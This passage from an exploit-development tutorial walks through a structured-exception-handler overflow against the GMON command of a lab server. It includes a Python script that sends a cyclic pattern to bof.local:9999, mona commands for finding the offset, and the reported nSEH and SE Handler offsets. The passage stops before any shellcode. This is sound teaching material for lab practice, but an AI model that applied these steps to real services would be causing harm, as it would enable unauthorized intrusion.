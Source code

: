 
And couple this with our fuzzing script but instead of repeating A's incrementing by 200 bytes each time let's simply just send our pattern alongside `GMON :./`



```python
#!/usr/bin/python
import socket
import sys

buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa...."



print "[*] Starting to Fuzz GMON with pattern containing %s bytes" %len(buffer)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',9999))
print "[*] Connected to bof.local on Port 9999"
s.send(('GMON /.:/' + buffer))
s.close()
print "[*] Finished Fuzzing GMON with %s bytes" %len(buffer)
```





Our application will now return to a crashed state and report a `Access Violation` but this time **SE Handler** contains `45336E45` in comparison to `41414141` - Let's jump to the stack again and check out data residing on the stack at present.




<p align = "center">
<img src = "https://i.imgur.com/zor6poD.png">
</p>



Perfect! As you can see we are looking at our never-repeating string and can not calculate the offset by simply using one of the below commands within **mona**



```bash
!mona findmsp
```

```python
!mona po 1En2
```


<p align = "center">
<img src = "https://i.imgur.com/Icsp6ik.png">
</p>



As you can see it took us **3515** **bytes** to overrun the value of **nSEH** and **3519 bytes** to overrun the value of **SE Handler** - Before I jump into beginning to piece everything together I want to first take this time to find any bad chars.
